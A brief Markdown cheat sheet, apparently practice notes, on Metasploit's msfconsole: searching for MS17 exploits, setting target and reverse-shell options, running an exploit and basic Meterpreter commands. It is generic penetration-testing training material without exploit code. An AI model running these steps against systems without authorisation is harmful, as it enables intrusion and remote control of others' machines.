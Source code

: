 # Practice: Using msfconsole & Modules

## Getting Started

```bash
msfconsole         # Start Metasploit Framework
help               # Show command list
history            # Show previous commands
```

## Searching for Exploits

```bash
search ms17        # Search for MS17-related exploits
use 0              # Select exploit number 0
back               # Exit current module
```

## Working With Modules

```bash
options            # Show required settings
set RHOSTS <IP>    # Set remote host (target)
setg RHOSTS <IP>   # Set globally
set LHOST <IP>     # Local attacker IP
set LPORT <PORT>   # Port for reverse shell
show payloads      # List compatible payloads
info               # Get detailed info about current module
```

## Running an Exploit

```bash
run                # Launch the exploit
```

## Meterpreter Basics

- `pwd`, `ls`, `cd`: Navigate directories
- `sessions`: List active sessions
- `sessions -i <id>`: Interact with a session
- `sysinfo`: Display system information

> 💡 Notes:
> - Meterpreter is a powerful post-exploitation shell with many built-in commands.
> - Always set proper RHOSTS and payload before running exploits.
